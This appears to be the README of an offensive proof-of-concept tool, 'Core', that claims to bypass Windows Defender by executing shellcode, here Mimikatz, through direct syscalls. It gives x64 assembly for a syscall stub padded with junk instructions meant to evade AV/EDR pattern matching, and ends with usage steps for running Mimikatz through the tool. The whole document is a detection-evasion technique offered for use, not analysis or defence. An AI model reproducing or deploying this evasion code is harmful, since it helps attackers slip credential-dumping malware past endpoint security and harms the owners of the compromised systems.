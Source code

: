 # Core
Core bypass Windows Defender and execute any binary converted to shellcode. Core is NOT using any mechanism to prevent
AV/EDR from debug/inspect this code.

Core uses syscall to execute shellcode, any kind of shellcode, in this PoC Mimikatz is converted to shellcode (.exe version)
Core is not calling any API but create memory mapped file and then calls the Nt or Zw functions.

This version uses a static pattern that represent the syscall, the next version create dynamics pattern that change with every call !

The inner soul of syscalls in 64bit:

```
mov     r10,rcx
mov     eax,0C1h
test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
jne     ntdll!NtCreateThreadEx+0x15 (00007ffa`8c50e635)
syscall
ret
```
or maybe

```
mov r10, rcx
mov eax, 0xC1
syscall
ret

```

but why this syntax ? it too easy for AV/EDR reg.ex pattern matching engine to detect this, why not make more complex or foolish


```

mov BH, 0x5
mov BL, 0x6
cmp BH,BL
mov BH, 0x2
mov BL, 0x4
cmp BH,BL
mov BH, 0x7
mov BL, 0x8
cmp BH,BL
jne go 

labelb:
sub rax, 0x3E8
jmp labelc

nop
labelc:
mov r10,rbx
mov r15, 0x64
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1

mov BH, 0x3
mov BL, 0x2
cmp BH,BL
mov BH, 0x6
mov BL, 0x9
cmp BH,BL
mov BH, 0x9
mov BL, 0x3
cmp BH,BL

syscall
nop
nop
nop
ret

labela:
mov rax, 0x438
nop
jmp labelb

go:
nop
mov rbx, rcx
jmp labela
```

Start cmd.exe with argument coffee like this:

cmd coffee

then run core.exe

don't type your Mimikatz in the mimikatz # prompt, hit ENTER once and type Mimikatz commands.


